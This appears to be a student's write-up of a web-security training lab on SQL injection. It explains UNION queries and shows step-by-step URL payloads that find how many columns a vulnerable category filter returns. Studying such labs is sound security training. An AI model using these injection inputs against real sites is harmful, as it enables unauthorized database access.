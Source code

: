# Description:
This lab contains a SQL injection vulnerability in the product category filter. 
The results from the query are returned in the application's response, so you can use a UNION attack 
to retrieve data from other tables. The first step of such an attack is to determine the number of columns 
that are being returned by the query. You will then use this technique in subsequent 
labs to construct the full attack.

To solve the lab, determine the number of columns returned by the query by performing a SQL injection 
UNION attack that returns an additional row containing null values.

# Analysis:
SQLi - Product category filter

End Goal: Determine the number of columns retuerned by the query.

Background (unions):

table1      table2
a | b       c | d
-----       -----
1 , 2       2 , 3
3 , 4       4 , 5

Query #1: select a, b from table1
Result:
1,2
3,4

Query #2: select a, b from table1 UNION select c,d from table2
Result:
1,2
3,4
2,3
4,5

Rule: 
 - The number and the order of the columns must be the same in all queries.
 - The data types must be compatible.

SQLi attack (way #1):

select ? from table1 UNION select NULL
- error -> If we get and error we know that we have an incorrect number of columns in the Union operator

select ? from table1 UNIONS select NULL, NULL
- error -> We keep incrementing the number of NULL values untill we no longer have an error

SQLi attack (way #2):

select a, b from table1 order by 1
select a, b from table1 order by 2
...
select a, b from table1 order by n

We keep incrementing the order by value untill we get an error, then we know that the number of columns
are n - 1.

Attacking the instance: 

1) - Query of the product filter: 
/filter?category=Gifts

2) - We add a ' to the query to see if the query is vulnerable to SQLi:
/filter?category=' 

3) - Then we can add a comment to not break the query:
/filter?category='-- 

4) - We can construct the query for our first SQLi attack:
/filter?category=Gifts' UNION select NULL--: number of columns 1 
/filter?category=Gifts' UNION select NULL, NULL--: number of columns 2
/filter?category=Gifts' UNION select NULL, NULL, NULL--: number of columns 3

Then we know that the number of columns is three

### Making the code:
The way we ant to call the code is the following: script.py <url> 



### Errors encountered: 

Error: 
    Traceback (most recent call last):
    File "/Users/luisfernandomendoza/Documents/web-security-academy/sql-injection/lab-03/sqli-lab-03.py", line 1, in <module>
    import requests
    ModuleNotFoundError: No module named 'requests'
Solution:
    1 - sudo pip3 install requests
    2 - Check the python interpreter: ctrl + shift + p, and look for 'Python: Select Interpreter'




